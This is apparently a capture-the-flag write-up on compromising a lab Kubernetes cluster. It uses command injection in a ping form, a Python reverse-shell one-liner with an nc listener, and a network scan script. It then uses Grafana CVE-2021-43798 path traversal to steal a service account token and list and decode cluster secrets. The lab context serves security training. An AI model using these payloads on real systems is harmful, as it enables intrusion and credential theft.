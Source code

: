# Challenge write up

## Introduction

We have a virtual machine that run a kind cluster. We can access the cluster using the kubectl command. We can also access the cluster using the dashboard.

The virtual machine only expose the port 80, that is a web application. We have to exploit the web application to get a shell on the pod that run the web application.

## Step 1

We have a web application, running on port 80. We can access the web application using the browser.

The first phase is the discovery of the application. Our target will be the web application running on [http://localhost:8080](http://localhost:8080).
We can grab application banner to detect the framework used by the web application.

```bash
curl -IL http://localhost:8080
```

This gave us the following result:

```bash
HTTP/1.1 200 OK
Server: Werkzeug/2.3.4 Python/3.9.16
Date: Sun, 21 May 2023 13:41:25 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1627
Connection: close
```

Inside the web application, we can see a form that allow us to enter value and the prompt return a `ping <value>` response.
We can try some command injection using `|` and `;`, for example we can try `; ls` that show us the webserver source code.

Using that command injection, we can try to get a reverse shell on the server. We can use the following command:

```bash
8.8.8.8; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR_IP>",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

_Don't forget to replace `<YOUR_LOCAL_IP>` by your IP address._

This command will spawn a reverse shell on the server, but we have to listen on the port 9001 to get the shell.

```bash
nc -lvnp 9001
```

When the python code will be interpreted, this will order the server to initiate a connection on the target IP and PORT provided (in our case, that our laptop).
Notice that even if they were a firewall, the connection will be initiated from the server to our laptop, so the firewall will not block the connection. Firewall should have block the connection if we are connecting to the server but not the opposite.

## Step 2

Gaining access to the pod allow us to use it as proxy and request the cluster from an internal resource.

### Discovery script

I wrote a simple bash script allowing me to scan the cluster network to find kubernetes services. For information, kubernetes services default ip range is 10.96.0.0/16.

```bash
#!/bin/bash
# Set the timeout value (in seconds)
timeout=0.03
# Loop through each IP address in the range 10.96.0.0/16
for third_octet in {56..255}; do
  for fourth_octet in {0..255}; do
    ip="10.96.$third_octet.$fourth_octet"

    # Loop through each port
    while read -r port; do
      url="http://${ip}:${port}"
      response_code=$(curl -s -o /dev/null -w "%{http_code}" --max-time $timeout "$url")

      if [[ $response_code -ge 200 && $response_code -lt 400 ]]; then
        echo "Success: $url (HTTP $response_code)"
        # Continue testing other combinations
      fi
    done < "ports.txt"
  done
  echo "Range 10.96.$third_octet.0/24 done"
done
```

Note: This script will take a long time to complete, i recommend to cheat and ajust the ip range to scope the grafana ip.

At this step, you will find some accessible IP addresses.
For convenience, we can set the ip on a variable:

```bash
export TARGET_IP=<IP_FOUND>
```

```bash
curl -IL http://$TARGET_IP:3000
```

Get the grafana version running:

```bash
curl http://$TARGET_IP:3000/login | grep "subTitle"
```

You should find that the grafana running is outdated and futhermore, the version 8.3.0 is weel-know to be vulnerable to CVE-2021-43798.

Damn, it's vulnerable: https://github.com/jas502n/Grafana-CVE-2021-43798

If you inspect the CVE informations, you can understand that we can use an endpoint to read file on the grafana server without being authenticated.
The endpoint is `/public/plugins/alertlist/../../../../../../../../etc/passwd`

### Attacking

To get some information about the server, we can try to read the `/etc/passwd` file.

```bash
curl --path-as-is http://$TARGET_IP:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
```

Damn, we can read the `/etc/passwd` file. That's mean we can read any file on the server.
Obviously, that's cool and we are already gaining some cool stuff, but as a reminder, we are on a kubernetes cluster, we can get cooler stuff ;)

Kubernetes give serviceAccount to pods allowing them to have access, roles or others things. As described in the documentation, the ServiceAccount token of your Pod is provisionned by kubernetes on the pod filesystem at this location:
`/var/run/secrets/kubernetes.io/serviceaccount/token`

Using this vulnerability on grafana and our knowledge, we can grab the service account token of grafana and use it to interact with the cluster.

```bash
curl --path-as-is http://$TARGET_IP:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
```

You can check what's in the JWT on [JWT.io](https://jwt.io/)

### Interact with the cluster using the service account

Set your token environment variable:

```bash
export TOKEN=$(curl --path-as-is http://$TARGET_IP:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token)
```

At this step, we own the grafana serviceAccount token, allowing us to request the cluster as if we were the grafana pod. (And with the grafana serviceAccount permissions).

#### Namespaces

For example, you can try to list namespaces for your cluster:

```bash
curl -H "Authorization: Bearer $TOKEN" "https://kubernetes.default.svc:443/api/v1/namespaces" -m 3 --insecure
# OR
wget --header="Authorization: Bearer $TOKEN" --timeout=3 --no-check-certificate https://kubernetes.default.svc:443/api/v1/namespaces
```

#### Pod

Listing pods.

```bash
curl -H "Authorization: Bearer $TOKEN" "https://kubernetes.default.svc:443/api/v1/pods" -m 3 --insecure
# OR
wget --header="Authorization: Bearer $TOKEN" --timeout=3 --no-check-certificate https://kubernetes.default.svc:443/api/v1/pods
```

Notice: As you are using the grafana serviceAccount, you will only see the pods that are on the same namespace as grafana. But you can change the namespace to see others resources.

For example, you can try to list the pods on the kube-system namespace:

```bash
curl -H "Authorization: Bearer $TOKEN" "https://kubernetes.default.svc:443/api/v1/namespaces/kube-system/pods" -m 3 --insecure
```

#### Secrets

Listing secrets.

```bash
curl -H "Authorization: Bearer $TOKEN" "https://kubernetes.default.svc:443/api/v1/secrets" -m 3 --insecure
# OR
wget --header="Authorization: Bearer $TOKEN" --timeout=3 --no-check-certificate https://kubernetes.default.svc:443/api/v1/secrets
```

For example, you can try to list the secrets on the kube-system namespace:

```bash
curl -H "Authorization: Bearer $TOKEN" "https://kubernetes.default.svc:443/api/v1/namespaces/kube-system/secrets" -m 3 --insecure
```

If you want to decrypt the secrets, you can use the following command:

```bash
echo <SECRET_VALUE> | base64 -d
```

